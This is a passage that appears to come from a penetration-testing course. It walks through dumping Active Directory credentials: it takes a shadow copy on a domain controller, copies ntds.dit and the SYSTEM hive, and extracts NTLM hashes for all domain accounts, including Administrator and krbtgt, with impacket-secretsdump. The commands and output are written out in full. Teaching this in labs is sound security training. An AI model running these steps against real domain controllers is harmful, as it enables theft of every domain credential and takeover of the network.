 ```
* SNAPSHOT ID = {c37217ab-e1c4-4245-9dfe-c81078180ae5} ...
   - Shadow copy Set: {f7f6d8dd-a555-477b-8be6-c9bd2eafb0c5}
   - Original count of shadow copies = 1
   - Original Volume name: \\?\Volume{bac86217-0fb1-4a10-8520-482676e08191}\ [C:\]
   - Creation Time: 9/19/2022 4:31:51 AM
   - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
   - Originating machine: DC1.corp.com
   - Service machine: DC1.corp.com
   - Not Exposed
   - Provider id: {b5946137-7b9f-4925-af80-51abd60b20d5}
   - Attributes:  Auto_Release No_Writers Differential

Snapshot creation done.
```

> Listing 41 - Performing a Shadow Copy of the entire C: drive

Once the snapshot has been taken successfully, we should take note of the shadow copy device name.

We'll now copy the whole AD Database from the shadow copy to the **C:** drive root folder by specifying the *shadow copy device name* and adding the full **ntds.dit** path.

```
C:\Tools>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
   1 file(s) copied.
```

> Listing 42 - Copying the ntds database to the C: drive

As a last ingredient, to correctly extract the content of **ntds.dit**, we need to save the SYSTEM hive from the Windows registry. We can accomplish this with the **reg** utility and the **save** argument.

```
C:\>reg.exe save hklm\system c:\system.bak
The operation completed successfully.
```

> Listing 43 - Copying the ntds database to the C: drive

Once the two **.bak** files are moved to our Kali machine, we can continue extracting the credential materials with the *secretsdump* tool from the impacket suite. We'll supply the ntds database with the **\-ntds** parameter and the system hive with the **\-system** parameter. Then we will tell impact to parse the files locally by adding the **LOCAL** keyword.

```
kali@kali:~$ impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0xbbe6040ef887565e9adb216561dc0620
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 98d2b28135d3e0d113c4fa9d965ac533
[*] Reading and decrypting hashes from ntds.dit.bak
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC1$:1000:aad3b435b51404eeaad3b435b51404ee:eda4af1186051537c77fa4f53ce2fe1a:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1693c6cefafffc7af11ef34d1c788f47:::
dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::
stephanie:1104:aad3b435b51404eeaad3b435b51404ee:d2b35e8ac9d8f4ad5200acc4e0fd44fa:::
jeff:1105:aad3b435b51404eeaad3b435b51404ee:2688c6d2af5e9c7ddb268899123744ea:::
jeffadmin:1106:aad3b435b51404eeaad3b435b51404ee:e460605a9dbd55097c6cf77af2f89a03:::
iis_service:1109:aad3b435b51404eeaad3b435b51404ee:4d28cf5252d39971419580a51484ca09:::
WEB04$:1112:aad3b435b51404eeaad3b435b51404ee:87db4a6147afa7bdb46d1ab2478ffe9e:::
FILES04$:1118:aad3b435b51404eeaad3b435b51404ee:d75ffc4baaeb9ed40f7aa12d1f57f6f4:::
CLIENT74$:1121:aad3b435b51404eeaad3b435b51404ee:5eca857673356d26a98e2466a0fb1c65:::
CLIENT75$:1122:aad3b435b51404eeaad3b435b51404ee:b57715dcb5b529f212a9a4effd03aaf6:::
pete:1123:aad3b435b51404eeaad3b435b51404ee:369def79d8372408bf6e93364cc93075:::
```

[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname